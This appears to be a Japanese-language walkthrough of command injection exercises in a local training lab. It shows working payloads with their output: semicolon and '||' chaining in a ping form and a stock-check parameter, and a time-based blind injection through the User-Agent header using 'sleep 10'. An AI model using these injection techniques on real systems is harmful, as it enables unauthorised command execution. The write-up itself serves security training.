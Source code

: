 # Command Injection

## Send Ping 1

入力欄にIPアドレスを入れるとPINGの結果が返ってくる。

`127.0.0.1`だと
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.057 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.067 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.053 ms
64 bytes from 127.0.0.1: icmp_seq=5 ttl=64 time=0.070 ms

--- 127.0.0.1 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4183ms
rtt min/avg/max/mdev = 0.012/0.051/0.070/0.020 ms
```

セミコロンでコマンドを結合してみると実行される。
`127.0.0.1;pwd`だと
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.057 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.058 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_seq=5 ttl=64 time=0.055 ms

--- 127.0.0.1 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4199ms
rtt min/avg/max/mdev = 0.014/0.041/0.058/0.018 ms
/var/www/html/lab/command-injection/ping-low
```

## Send Ping 2

色々と使えないワードが登録されている。  
＆と；が使えないと来たらパイプ記号の出番。

前のコマンドが失敗したときに後続コマンドを実行する`||`を使ってみる。
`127.0.0.1`ではなく`XXX||date`と入れてみる。
ホスト名XXXは解決できずにpingに失敗し、結果が返ってくる。
```
Thu Oct 13 17:24:11 +04 2022
```

## Stock Control
ボタンを押すと`product_id=1`などとリクエストが飛ぶ。

`product_id=1;pwd`としてあげればコマンドの実行結果が得られる。
```html
 <strong>  <p style="text-align:center;">Stock: 13
/var/www/html/lab/command-injection/stock-check
 Pieces</p></strong>
 ```

## Blind Command Injection
ログインすると`Admin logs your user-agent on their system`と表示される。
どうもUser-Agentをログに取っているらしい。

画面には表れないぽいのでこれもTime basedで確認する。

これで10秒ほど待たされたので効いた模様。
```http
GET /lab/command-injection/blind-command-injection/blind.php HTTP/1.1
Host: localhost:1337
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: aaa;sleep 10
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Not;A=Brand";v="99", "Chromium";v="106"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Referer: http://localhost:1337/lab/command-injection/blind-command-injection/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=hrp4do7ps1b81jc4p8ajfd0lna
Connection: close


```
これでもよいですね。
```http
GET /lab/command-injection/blind-command-injection/blind.php HTTP/1.1
Host: localhost:1337
User-Agent: `sleep 10`
Referer: http://localhost:1337/lab/command-injection/blind-command-injection/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=hrp4do7ps1b81jc4p8ajfd0lna
Connection: close


```








